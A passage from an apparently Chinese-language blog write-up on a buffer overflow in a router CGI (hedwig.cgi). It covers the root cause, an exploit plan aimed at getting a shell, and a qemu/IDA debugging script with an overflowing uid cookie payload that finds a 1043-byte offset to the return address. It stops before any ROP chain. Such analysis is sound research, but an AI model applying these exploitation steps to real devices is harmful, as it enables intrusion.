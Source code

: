 sprintf(栈上的内容,”%s/%s/postxml”,”/runtime/session”,uid的内容)uid的内容是由用户控制的，却没有长度限制，而栈空间有限，hedwigcgi_main同时是一个非叶子函数，那么ra一定存在栈上，我们接下来要做的就是覆盖栈空间内的saved ra达到控制程序流程的目的。

### <a class="reference-link" name="4.2-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>4.2-漏洞利用

整个漏洞利用过程是
- 劫持PC，通过调试确定缓冲区大小，定位并确定控制偏移
- 确定攻击路径，构造ROP链
- 编写exp,getshell
<a class="reference-link" name="4.2.1-%E5%8A%AB%E6%8C%81PC%EF%BC%8C%E7%A1%AE%E5%AE%9A%E5%81%8F%E7%A7%BB"></a>**4.2.1-劫持PC，确定偏移**

利用qemu和IDA进行动态调试,用的是（IDA6.8,qemu2.5）

调试脚本test.sh，其中需要sudo chroot 到文件系统下，然后利用qemu-mipsel-static用户模式进行调试，-E是对应环境变量的参数。-g 指定调试端口，“2&gt; /dev/null” 代表忽略掉错误提示信息。

```
#/bin/bash
test=$(python -c "print 'uid='+open('test','r').read(2000)")
LEN=$(echo -n "$test" | wc -c)
PORT="23957"
cp $(which qemu-mipsel-static) ./qemu
sudo chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$test -E REQUEST_URL="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT /htdocs/web/hedwig.cgi 2&gt;/dev/null
rm -f ./qemu
```

在这之前需要利用patternLocOffset.py生成test文件，包含特定格式的2000个字符串。

`python patternLocOffset.py -c -l 2000 -f test`

使用IDA调试发现运行到hedwigcgi_main()返回时ra寄存器中的值为0x38694237

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/ra.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/ra.png)

`python patternLocOffset.py -s 0x38694237 -l 2000`确定缓冲区距离ra的距离为1043。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/%E7%A1%AE%E5%AE%9A%E5%81%8F%E7%A7%BB.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/%E7%A1%AE%E5%AE%9A%E5%81%8F%E7%A7%BB.png)

可以通过修改test.sh中的`test =$(python -c "print 'uid=' + 'A'*1043 + 'B'*4")`进一步确定偏移为1043。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/1043offset.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/1043offset.png)

以上是触发第一个sprintf()的偏移。

<a class="reference-link" name="4.2.1.1-%E9%87%8D%E6%96%B0%E7%A1%AE%E5%AE%9A%E5%81%8F%E7%A7%BB"></a>**4.2.1.1-重新确定偏移**

更改test.sh，在脚本中加入echo “uid=xxx”。
